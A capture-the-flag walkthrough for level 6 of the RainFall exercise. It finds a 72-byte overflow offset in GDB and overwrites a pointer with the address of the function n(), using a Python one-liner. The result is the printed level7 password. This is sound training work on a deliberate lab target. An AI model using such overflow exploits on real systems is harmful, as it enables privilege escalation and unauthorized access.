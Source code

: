 #Level6

## Objective

The goal of Level 6 is to escalate from `level6` to `level7` by exploiting a buffer overflow vulnerability in the `level6` binary. By the end, we’ll be able to read the password for `level7`.

---

## Step 1: Examine the Binary

After switching to `level6`:

```bash
level6@RainFall:~$ ls
level6
```

Running the binary with different input lengths:

```bash
level6@RainFall:~$ ./level6
Segmentation fault (core dumped)

level6@RainFall:~$ ./level6 aaaaa
nope
```

Disassembling functions:

There's a function called `n()` which calls a syscall.
The main uses 2 mallocs and a strcpy. If there's a strcpy there's a way to leak.

---

## Step 2: Find the Offset with GDB

We use a specific string to identify the overwrite point:

```bash
(gdb) r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9...
Program received signal SIGSEGV
0x41346341 in ?? ()
```
By calculating the position of `0x41346341` in the string, we determine the **offset** is 72 bytes.

---

## Step 4: So What’s the Expected Input?

To exploit the program:

* **Shellcode is not needed** here because the binary already has a function (`n`) that runs the command for us.
* We need: `padding (72 bytes) + address of n()`

```bash
python -c 'print "A" * 72 + "add de n"
```

This overwrites the return address with the address of `n()`.

```bash
(gdb) info functions
    0x08048454  n
```

---

## Step 5: Get the Flag

Running the exploit:

```bash
level6@RainFall:~$ ./level6 $(python -c 'print "A" * 72 + "\x54\x84\x04\x08")
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```

Now we can read:

```bash
level6@RainFall:~$ su level7
Password: <paste flag>
level6@RainFall:~$
```

---

**End of Level 6 Walkthrough**



